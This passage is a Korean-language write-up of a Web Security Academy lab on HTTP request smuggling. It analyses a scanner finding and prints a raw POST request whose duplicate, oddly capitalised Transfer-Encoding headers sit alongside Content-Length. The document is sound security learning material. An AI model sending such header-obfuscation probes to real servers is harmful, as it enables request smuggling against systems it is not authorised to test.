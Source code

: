 ![HTTP Request Smuggler 스캔 결과](/images/burp-academy-hrs-3-1.png)

HTTP 요청과 응답은 세개가 주어졌다. 다음과 같다. 

요청 1. 바디는 13바이트다. CL헤더는 값이 정확하게 들어갔다. TE헤더가 두 개 들어가 있다. 하나는 `Transfer-Encoding: chunked`고, 하나는 `Transfer-encoding: identity`다. Transfer-Encoding의 Encoding부분의 대문자가 다르다. [여기](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding)에 의하면 identity라는 값은 의미없는 값인 것 같다. 

```http
POST / HTTP/1.1
Host: 0aca00b80465a02381d9cf8a001f0091.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Transfer-Encoding: chunked
Connection: close
Transfer-encoding: identity
Content-Length: 13

3\r\n
x=y\r\n
0\r\n
\r\n
```
